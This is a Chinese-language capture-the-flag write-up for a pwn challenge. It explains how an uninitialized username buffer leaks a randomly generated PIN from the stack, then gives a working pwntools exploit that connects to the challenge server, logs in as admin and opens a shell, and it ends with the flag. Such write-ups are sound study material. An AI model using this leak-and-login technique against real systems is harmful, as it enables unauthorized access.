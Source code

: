 # Sunshine on Filth is Not Polluted

> pwn

## 题目描述

Log in with a valid username and PIN code, and this program will give you a shell. The username is easy to identify, but the PIN code is randomly generated!

Here's a hint, but you'll need to work for it a bit. Two hashed words: f704f57ea420275ad51bf55b7dec2c96 87cd8b8808600624d8c590cfc2e6e94b

To get the flag, you will need to exploit the binary on a live system. The binary is running on 34.123.210.162 port 20231 and the flag can be found in the /home/re3 directory when you get a shell.

## 解题思路

- 首先这个 pwn 题居然被放到 reverse 分类里去了，这让我着实浪费了不少时间怀疑自己的思路
- 先看一下题目的提示，给了两个看起来像哈希值的字符串，从长度为 32 可以初步判断为 md5 加密。
- 在 [md5 在线加解密网站](https://md5.cn/)上解密，可以得知两个提示信息为 `Uninitialized` 和 `variables`

  ![解密字串1](images/解密字串1.png)

  ![解密字串2](images/解密字串2.png)

- 回看程序逻辑，首先生成一个随机 PIN 码，然后用户选择执行的操作，包括输入用户名、确认用户名、登录。

  ![用户选择](images/用户选择.png)

- 根据题目提示，思路已经很明显了，用户名在没有初始化的情况下就可以打印，这样会泄露栈上的内容。我们动态调试一下，分别在生成 PIN 码处和打印 src 变量处下断点

  ![断点1](images/断点1.png)

  ![断点2](images/断点2.png)

- 然后查看这两处断点的栈

  ![断点1栈](images/断点1栈.png)

  ![断点2栈](images/断点2栈.png)

  栈顶是一模一样的，所以当 src 变量未初始化时，打印的内容就是未被覆盖的栈顶内容，即生成的 `auth_code`

- exp 如下

  ```python
  from pwn import *

  r = remote('34.123.210.162', 20231)
  # r = process('./re3.bin_no_alarm')
  # gdb.attach(r, 'b *(configure_username+128)')
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'2')
  raw_code = r.recvline()
  raw_code = raw_code.split(b':')[-1].strip()
  auth_code = int.from_bytes(raw_code, 'little')
  print(raw_code)
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'1')
  r.recvuntil(b'Username: ')
  r.sendline(b'admin')
  r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
  r.sendline(b'3')
  r.recvuntil(b'Enter your authentication code: ')
  r.sendline(str(auth_code).encode())
  r.interactive()
  ```

- 得到 flag

  ![flag](images/flag.png)

## flag

`poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}`